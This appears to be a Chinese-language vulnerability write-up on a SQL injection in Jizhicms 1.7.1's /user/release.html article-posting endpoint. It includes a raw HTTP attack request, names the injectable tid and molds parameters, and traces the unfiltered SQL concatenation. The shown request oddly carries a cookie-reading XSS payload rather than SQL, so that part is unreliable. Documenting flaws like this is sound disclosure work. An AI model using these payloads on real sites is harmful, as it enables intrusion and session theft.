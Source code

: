 Jizhicms 1.7.1 ./user/release.html sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

同样还是在发表文章这

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 153
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release/molds/article.html
    Cookie: PHPSESSID=84mcpgsvrgnfag0fnl3ngjm2eo; XDEBUG_SESSION=PHPSTORM

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=123&litpic=&description=123

![1.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId24.png)![2.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId25.png)可以看到有明显的时间延迟，存在基于时间的延迟注入为了直观的展示是否进行了拼接sql语句的操作，监控下sql语句的执行，在mysql监控工具中可以看到没有任何过滤就进行了sql语句的拼接，触发了sql注入漏洞![3.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId26.png)定位到漏洞函数release函数，重点关注下sql语句的拼接问题，一共有两处进行了sql的拼接，只要在进行拼接前没有进行过滤就会存在sql注入漏洞![4.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId27.png)其中\$this-\>classtypedata对应的是数据库中的classtype表中的数据![5.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId28.png)然后跟进到get\_fields\_data函数，根据xdebug调试代码的运行情况，发现fields为空，所以会直接返回data,其中并没有进行任何过滤![6.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId29.png)在release函数函数中只是要求\$w\[\'tid\'\]!=0即可，所以我们可以在tid参数和molds参数处构造sql注入语句![7.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId30.png)用slmap跑的结果![8.png](./resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7861\#toc-2
